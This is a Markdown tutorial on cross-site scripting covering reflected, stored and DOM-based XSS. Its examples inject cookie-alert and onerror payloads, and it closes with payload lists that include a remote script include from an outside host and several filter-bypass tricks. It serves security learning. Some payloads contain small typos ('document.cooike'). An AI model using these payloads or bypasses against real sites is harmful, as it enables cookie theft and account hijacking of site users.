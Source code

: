 # Cross-site scripting (XSS)
> Cross-site scripting (XSS) is a vulnerability found in web applications. It is a code injection attack where the attacker injects malicious code into web pages which are viewed by other users. It occurs when the user input is not properly filtered.XSS effects differ in a scope from a petty nuisance to momentous security risk, based on the sensitivity of the data handled by the target site and the quality of any security mitigation implemented by the site's admin.

### Impact
The impact of XSS is boundless. A successful XSS may lead to :

- Account hijacking
- Credential-stealing
- Leakage of sensitive data
- Display text that seems to come from the site owners,(Like phishing)
- Log keystrokes
- Redirect to another site
- Gain access to camera/microphone if the victim has granted access to that site.

***Common languages used for XSS***
    
- Javascript
- VBScript
- HTML
- Perl
- C++, ActiveX and Flash

### Types of XSS

1. Reflected XSS
2. Stored XSS
3. DOM-based XSS

#### Reflected XSS
___

This is the most common type of cross-site scripting vulnerability. Here the payload is a part of HTTP request which should give the HTTP response containing the payload embedded in the page. In this type of attack, the attacker has to deliver the payload to the victim.

The attacker uses E-mails and other social engineering methods to get the victim to click on the link which contains the payload within the link. 


***Example***

Let's see a web page which reflects the input given for id parameter into the web page

![reflected_xss](./xss.png)

Here the attacker can successfully implement reflected XSS by changing the id parameter to a malicious script

Let's try to pop-up the cookies of the user by injecting a script

```url
localhost/xss.php?id=<script>alert(document.cooike)</script>
```

This gives us a pop-up containing cookies in the page. 

![reflected_xss](./xss_2.png)


#### Stored XSS
___

This the most dangerous cross-site scripting attack. The payload injected by the attacker is permanently stored in the web page and whoever visits the page will end up as a victim of this attack.

The most common illustration of this type of XSS is a web page containing commenting functionality. The attacker comments a malicious script which will be stored in the web page, and when another user who visits this page will be affected by this payload.

***Example***

Let's see a web page which displays the status given by users.

Link to the challenge: http://xss-game.appspot.com/level2

![stored_xss](./xss_s_1.png)

Now the attacker can give the status as a payload so that it will be stored in the web application and will affect another user.

Let's try to pop-up the alert with the event handler "onerror"

```
<img src="" onerror="alert(1)">
```
![stored_xss](./xss_s_2.png)

On sharing this status the payload will be stored in the application and whoever visits the page gets a pop-up.

![stored_xss](./xss_s_3.png)

#### DOM-based XSS
___

DOM-based XSS doesn't develop in the HTML part rather develop in the DOM (Document Object Model). i.e unlike reflected and stored XSS attacks where you can see the payload reflected in the web application, DOM-based the source code of the web page remains exactly the same. mostly all the HTML documents have a related DOM, containing the objects characterizing the document properties from the perspective of the browser. Whenever a script is executed client-side, the browser equips the code with the DOM of the web page where the script executes, thus, offering admittance to numerous properties of the web page and their values, populated by the browser from its context.

***Example***

Consider the following page http://example.com/xss.html containing the below code:

```HTML
<script>
    document.write("<b>Current URL</b> : " + document.baseURI);
</script>
```

If you send an HTTP request to the web page like this 
```
http://example.com/xss.html#<script>alert(1)</script>
```

straightforward enough that your JavaScript code will get executed, as the web page is writing whatsoever you typed in the URL to the page with document. write function. If you glance at the source of the page, you won't see \<script>alert(1)\</script> because it's all proceeding in the DOM and done by the executed JavaScript code.

### Some payloads

**Basic payloads**
```html
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<img src=x onerror=alert('XSS');>
<svgonload=alert(1)>
<body onload=alert(/XSS/.source)>
<textarea autofocus onfocus=alert(1)>
```

**External payload**
```html
<script src=14.rs>
```

**Bypass filters**
```html
<sCrIpT>alert(1)</ScRipt>
<script x>alert('XSS')<script y>
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

---

